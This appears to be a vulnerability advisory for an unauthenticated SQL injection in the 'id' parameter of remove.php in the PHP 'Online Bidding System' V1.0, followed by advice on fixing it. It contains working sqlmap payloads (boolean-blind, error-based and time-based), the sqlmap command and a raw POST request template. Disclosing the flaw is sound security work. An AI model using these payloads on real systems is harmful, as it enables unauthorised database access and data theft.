


# ONLINE BIDDING SYSTEM Project V1.0 remove.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- ONLINE BIDDING SYSTEM

## Vendor Homepage

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

 - Chenguang Wang-GuangZhou University
 - Zhihong Tian-GuangZhou University
 - Chenguang Wang-Zhihong Tian-GuangZhou University
## VERSION(S)

- V1.0

## Software Link

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'remove.php' file of the 'ONLINE BIDDING SYSTEM' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "ONLINE BIDDING SYSTEM", discovered a critical SQL injection vulnerability in the "remove.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based
- time-based blind
- boolean-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 4237=(SELECT (CASE WHEN (4237=4237) THEN 4237 ELSE (SELECT 5417 UNION SELECT 1249) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x71706b6271,(SELECT (ELT(6564=6564,1))),0x7162627171),6564)-- FIiT
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: id=1' OR (SELECT 9221 FROM (SELECT(SLEEP(5)))XmQF)-- oabl
    Vector: OR (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /administrator/remove.php HTTP/1.1
Host: 10.151.167.210:8886
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.151.167.210:8886
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.167.210:8886/administrator/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive

id=1*
```

# Attack results



# Suggested repair


1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.